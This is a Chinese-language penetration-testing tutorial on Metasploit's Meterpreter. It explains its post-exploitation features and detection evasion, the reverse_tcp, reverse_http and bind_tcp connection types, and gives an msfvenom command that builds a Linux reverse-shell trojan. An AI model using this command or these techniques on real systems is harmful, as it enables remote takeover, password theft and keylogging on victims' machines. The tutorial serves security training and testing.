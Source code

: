 # Meterpreter

## 介绍

 Meterpreter是Metasploit框架中的一个扩展模块，作为溢出成功以后的攻击载荷使用，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个Meterpreter shell的链接。Meterpreter shell作为渗透模块有很多有用的功能，比如添加一个用户、隐藏一些东西、打开shell、得到用户密码、上传下载远程主机的文件、运行cmd.exe、捕捉屏幕、得到远程控制权、捕获按键信息、清除应用程序、显示远程主机的系统信息、显示远程机器的网络接口和IP地址等信息。另外Meterpreter能够躲避入侵检测系统。在远程主机上隐藏自己,它不改变系统硬盘中的文件,因此HIDS[基于主机的入侵检测系统]很难对它做出响应。此外它在运行的时候系统时间是变化的,所以跟踪它或者终止它对于一个有经验的人也会变得非常困难。

 最后,Meterpreter还可以简化任务创建多个会话。可以来利用这些会话进行渗透。在Metasploit Framework中，Meterpreter是一种后渗透工具，它属于一种在运行过程中可通过网络进行功能扩展的动态可扩展型Payload。这种工具是基于“内存DLL注入”理念实现的，它能够通过创建一个新进程并调用注入的DLL来让目标系统运行注入的DLL文件。其中，攻击者与目标设备中Meterpreter的通信是通过Stager套接字实现的meterpreter作为后渗透模块有多种类型，并且命令由核心命令和扩展库命令组成，极大的丰富了攻击方式。

 需要说明的meterpreter在漏洞利用成功后会发送第二阶段的代码和meterpreter服务器dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行help之后发现缺少命令。 连上vpn又在内网中使用psexec和bind_tcp的时候经常会出现这种情况

## 常用的反弹类型

### reverse_tcp

这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

使用下列命令生成一个Linux下反弹shell木马：

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=你的IP lport=监听端口  -f elf -o shell
```

> 关于生成木马后续再提

然后我们打开Metasploit，使用模块handler，设置payload，注意：这里设置的payload要和我们生成木马所使用的payload一样,配置好参数就可以开始监听,当目标运行木马们就可以反弹shell了

### reverse_http

基于http方式的反向连接，在网速慢的情况下不稳定

### bind_tcp

这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST

## Payload

Metasploit中的Payload模块主要有以下三种类型：

-Single

-Stager

-Stage

Single是一种完全独立的Payload，而且使用起来就像运行calc.exe一样简单，例如添加一个系统用户或删除一份文件。由于Single Payload是完全独立的，因此它们有可能会被类似[netcat](https://en.wikipedia.org/wiki/Netcat)这样的非metasploit处理工具所捕捉到。
